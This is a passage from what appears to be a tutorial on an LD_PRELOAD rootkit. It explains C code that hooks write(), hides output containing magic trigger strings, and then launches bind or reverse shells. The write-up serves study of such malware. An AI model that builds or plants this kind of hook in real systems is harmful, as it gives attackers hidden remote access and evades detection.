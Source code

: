 ```c
    char *rev6 = strstr(buf, KEY_R_6);
 ```
 
 Let's break this down:
 + `ssize_t write(int fildes, const void *buf, size_t nbytes)` this is the man page declaration of the `write()` function. This has to match perfectly or the calling process won't use our shared library as a resource, it will continue to look for `write()` definition elsewhere. Now that we have the calling process' attention;
 + `ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);` we declare a second function with the same structure as the genuine `write()` function. This one is actually declaring a pointer but it is not yet initialized (it doesn't yet point to anything). `(*new_write)` says "this is a pointer to a function called `new_write()`" and then the rest of the declaration provides a definition for the function that will eventually be pointed to;
 + `new_write = dlsym(RTLD_NEXT, "write");` does something very crucial. We had already declared a pointer to `new_write()` but we hadn't yet initialized it. *Now* we are initializing it and giving it a memory address to point to. It is now going to point to the address returned by `dlsym` [https://linux.die.net/man/3/dlsym]. `dlsym` is a way to interface with the dynamic linker and we give it two arguments. We ask it to find the next occurence (`RTLD_NEXT`) in the subsequent linked libraries of the call `"write"`. `dlsym` returns the address of next occurence found of that `"write"` symbol. What would that be? Well, it's going to be the address of the **REAL** `write()` function, because it's going to consult the legitimate libraries after ours. So now, `new_write` is essentially just a reference to the actual real `write()` syscall as intended;
 + `ssize_t result;` we declare a variable of type `ssize_t` the data type returned by our `write()` function and call it `result`. 
 + The last four lines are very similar, `char *bind4 = strstr(buf, KEY_4);` delcares and initializes a new pointer variable of the `char` type that is equal to the result of the `strstr()` function after comparing the buffer being written (a reference to the `const void *buf` argument in our `write()` syscall) to a harcoded defined variable `KEY_4`. You can set `KEY_4` to whatever you like, I set it to `#define KEY_4 "notavaliduser4"`. `strstr()` is very interesting. If it finds the second argument within the first argument, it will return a pointer to the first occurence of the second argument. So if it returns a `NULL` we know that it didn't find a match. 
 
 Let's look at the next block of code:
 ```c
 if (bind4 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv4_bind();
    }

    else if (bind6 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv6_bind();
    }

    else if (rev4 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv4_rev();
    }

    else if (rev6 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv6_rev();
    }
    
    return result;
}
 ```